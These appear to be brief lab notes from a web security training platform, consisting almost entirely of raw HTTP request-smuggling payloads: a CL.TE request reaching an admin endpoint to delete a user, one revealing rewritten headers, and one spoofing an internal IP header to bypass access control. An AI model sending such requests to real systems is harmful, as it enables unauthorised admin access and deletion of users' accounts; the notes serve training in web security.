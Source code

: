 # Using CL.TE to get to /admin and delete a user:
```http
POST / HTTP/1.1
Host: 0a2b00b2030d471281e652aa004e0016.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=


```

# Exploiting rewritten request to get /admin and delete a user:
- Used this to show the rewritten request:
```http
POST / HTTP/1.1
Host: 0ad20037040bb8b58bff0e2900ad0091.web-security-academy.net
Cookie: session=QERVOagM2DZLNHs6qP2HL0OHpSwUkqFP
Content-Length: 106
Origin: https://0ad20037040bb8b58bff0e2900ad0091.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Length: 200
Content-Type: application/x-www-form-urlencoded

search=test


```
- Used this to get to /admin and delete the user:
```http
POST / HTTP/1.1
Host: 0ad20037040bb8b58bff0e2900ad0091.web-security-academy.net
Cookie: session=QERVOagM2DZLNHs6qP2HL0OHpSwUkqFP
Content-Length: 145
Origin: https://0ad20037040bb8b58bff0e2900ad0091.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-LjYyXu-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=

```